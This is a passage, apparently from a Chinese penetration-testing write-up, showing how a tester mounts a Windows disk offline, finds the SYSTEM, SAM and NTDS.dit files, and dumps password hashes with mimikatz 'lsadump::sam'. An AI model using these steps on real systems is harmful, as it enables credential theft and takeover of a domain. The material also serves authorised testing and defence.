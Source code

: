 开机，执行 diskmgmt.msc ，联机挂载磁盘。最后成功识别到 工具盘D: 、挂载的F:

![image-20230615172304078](attachments/image-20230615172304078.png)

找相关文件

```
SYSTEM :C:\Windows\System32\config\SYSTEM
SAM :C:\Windows\System32\config\SAM
mimikatz lsadump::sam /sam:SAM /system:SYSTEM

如果目标是DC服务器，还可以导出ntds.dit文件读全域hash
NTDS.dit  : C:\Windows\NTDS\NTDS.dit 
```

![image-20230615161456267](attachments/image-20230615161456267.png)

![image-20230615161507009](attachments/image-20230615161507009.png)

# 0x07 开启文件内容复制粘贴功能

只能复制文件内的字符，且有长度限制
